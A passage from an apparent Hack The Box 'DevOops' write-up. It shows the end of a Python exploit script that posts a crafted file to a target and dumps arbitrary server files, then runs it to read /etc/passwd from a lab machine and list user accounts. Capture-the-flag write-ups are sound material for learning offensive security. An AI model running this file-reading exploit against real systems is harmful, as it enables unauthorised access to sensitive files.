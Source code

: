 ```python
        response = requests.post(url, files=files)
        
        # show or save the file
        if response.text:
            formatted_response = '\n'.join(response.text.split('\n')[2:-4])[10:].strip()
            if write_to_disk:
                filename = f'{file.split("/")[-1]}.dmp'
                with open(f'./{filename}', "w") as f:
                    print(f"\n[+] Saved {file} as {filename}")
                    f.write(formatted_response)
            else:
                print(f'\n[+] Dumped {file}:\n\n{formatted_response}')

    except requests.ConnectionError:
        print(f"\n[!] Could NOT read {file} :(")
        sys.exit(1)

def set_arguments():
    parser = argparse.ArgumentParser(
        description="HTB DevOops exploit"
    )
    parser.add_argument('-t', '--target', required=True)
    parser.add_argument('-f', '--file', required=True)
    parser.add_argument('-w', '--write', help="write file to disk", action='store_true', dest='write')
    return parser.parse_args()

def main():
    try:
        args = set_arguments()
        exploit(args.target, args.file, args.write)
        sys.exit(0)

    except KeyboardInterrupt:
        print("\n[!] Keyboard interrumpt detected. Quitting!")
        sys.exit(1)

main()
```

Used the  `-w` flag to download the file.

```bash
python3 devoops.py -t 10.129.219.224 -f /etc/passwd -w

[+] Saved /etc/passwd as passwd.dmp
```

Discovered two other users, besides root.

```bash
cat passwd.dmp | grep sh$
root:x:0:0:root:/root:/bin/bash
git:x:1001:1001:git,,,:/home/git:/bin/bash
roosa:x:1002:1002:,,,:/home/roosa:/bin/bash
```
